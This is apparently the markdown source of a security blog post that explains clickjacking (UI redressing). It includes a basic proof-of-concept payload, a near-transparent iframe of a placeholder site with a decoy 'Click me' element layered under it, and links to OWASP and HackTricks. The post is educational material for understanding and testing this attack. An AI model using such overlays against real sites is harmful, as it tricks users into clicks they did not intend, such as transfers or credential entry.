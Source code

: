 ```yaml
---
title: Clickjacking (UI redressing)
#author: cotes
date: 2024-11-21 12:00:00 +04:00
categories: [Web Vulnerabilities,Clickjacking]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/clickjacking/clickjacking.png
  alt: Clickjacking
---
```


## What is Clickjacking?

Clickjacking, also known as a “UI redress attack," unintentionally clicks on an invisible button placed over the visible web page user interface. This is possible when the invisible button is present in the iframe layer which is essentially superimposed over the actual page.

So, when a user clicks on some area thinking of performing a particular action, they are actually performing some other action.

This can cause users to unwittingly download malware, visit malicious web pages, provide credentials or sensitive information, transfer money, or purchase products online.

## Exploitation

**Basic Payload**

<code>
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 470px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://publish.hoax.com/"></iframe>
</code>






## References

[**OWASP**](https://owasp.org/www-community/attacks/Clickjacking)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/clickjacking)

